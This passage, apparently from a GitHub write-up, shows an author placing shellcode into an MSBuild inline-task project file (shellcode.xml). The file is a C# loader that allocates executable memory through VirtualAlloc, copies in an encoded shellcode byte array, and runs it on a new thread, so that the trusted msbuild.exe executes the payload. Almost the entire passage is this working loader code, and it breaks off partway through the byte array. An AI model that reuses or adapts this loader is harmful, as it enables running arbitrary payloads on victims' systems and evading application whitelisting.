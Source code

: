 #### Then I added the shellcode to `shellcode.xml`
#### `shellcode.xml` :
```
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <!-- This inline task executes shellcode. -->
  <!-- C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe SimpleTasks.csproj -->
  <!-- Save This File And Execute The Above Command -->
  <!-- Author: Casey Smith, Twitter: @subTee --> 
  <!-- License: BSD 3-Clause -->
  <Target Name="Hello">
    <ClassExample />
  </Target>
  <UsingTask
    TaskName="ClassExample"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <Task>
    
      <Code Type="Class" Language="cs">
      <![CDATA[
        using System;
        using System.Runtime.InteropServices;
        using Microsoft.Build.Framework;
        using Microsoft.Build.Utilities;
        public class ClassExample :  Task, ITask
        {         
          private static UInt32 MEM_COMMIT = 0x1000;          
          private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;          
          [DllImport("kernel32")]
            private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
            UInt32 size, UInt32 flAllocationType, UInt32 flProtect);          
          [DllImport("kernel32")]
            private static extern IntPtr CreateThread(            
            UInt32 lpThreadAttributes,
            UInt32 dwStackSize,
            UInt32 lpStartAddress,
            IntPtr param,
            UInt32 dwCreationFlags,
            ref UInt32 lpThreadId           
            );
          [DllImport("kernel32")]
            private static extern UInt32 WaitForSingleObject(           
            IntPtr hHandle,
            UInt32 dwMilliseconds
            );          
          public override bool Execute()
          {
            byte[] shellcode = new byte[3189] {
0xb8,0xfe,0x59,0x88,0xe3,0xdd,0xc6,0xd9,0x74,0x24,0xf4,0x5b,0x29,0xc9,0x66,
0xb9,0x17,0x03,0x31,0x43,0x14,0x83,0xc3,0x04,0x03,0xbd,0x49,0x6a,0x16,0xfb,
0x0b,0x0e,0xdf,0x65,0x10,0x07,0x06,0xed,0x83,0x6c,0xe6,0x24,0x05,0xea,0xa0,
0x39,0x96,0x70,0x15,0x41,0xa9,0x21,0x89,0x4a,0x9e,0xde,0x4f,0xd8,0x9d,0x21,
0xc8,0xc2,0xc7,0x98,0x1a,0x36,0x5c,0xec,0xe2,0xa0,0x84,0x61,0x2a,0x53,0xe7,
0x00,0x93,0xe2,0x70,0x85,0x85,0xda,0x7c,0xc7,0xc4,0x6e,0x4c,0xba,0xc5,0x5c,
0x9f,0x56,0x88,0x1d,0x4a,0xcb,0x5a,0x6f,0x86,0x40,0x46,0x26,0x80,0xf3,0x06,
0x39,0x4e,0xc2,0x43,0x48,0x82,0x98,0x06,0xa1,0x6b,0x45,0xbb,0x79,0xeb,0x4f,
0x4f,0x57,0x2f,0x6e,0x01,0xbc,0x9f,0x7b,0x2b,0xee,0x21,0x0c,0x5e,0x01,0xcf,
0xbb,0x1e,0x12,0x2f,0xf2,0xa7,0x1f,0x9c,0xa5,0x95,0x57,0x21,0x77,0xe6,0x03,
0x16,0x5a,0x09,0x8a,0x0b,0xb6,0x9f,0x70,0x88,0x1a,0xe7,0xae,0xdb,0xd4,0xc0,
0x3f,0xcd,0x53,0x49,0x21,0x97,0x7d,0xce,0xca,0x85,0xd8,0x94,0x12,0x73,0x81,
0x13,0xda,0x63,0xcf,0xa8,0x77,0xfa,0xa4,0x96,0xc8,0x18,0x2a,0xad,0x04,0xa8,
0x56,0xfc,0x6c,0x89,0xef,0x15,0xff,0xc1,0xa5,0x4b,0xb4,0xa4,0x3c,0xbc,0xf6,
0xeb,0x10,0x99,0xaa,0x81,0x73,0x33,0x5d,0xc9,0x5c,0x71,0x8f,0x45,0x30,0x6e,
```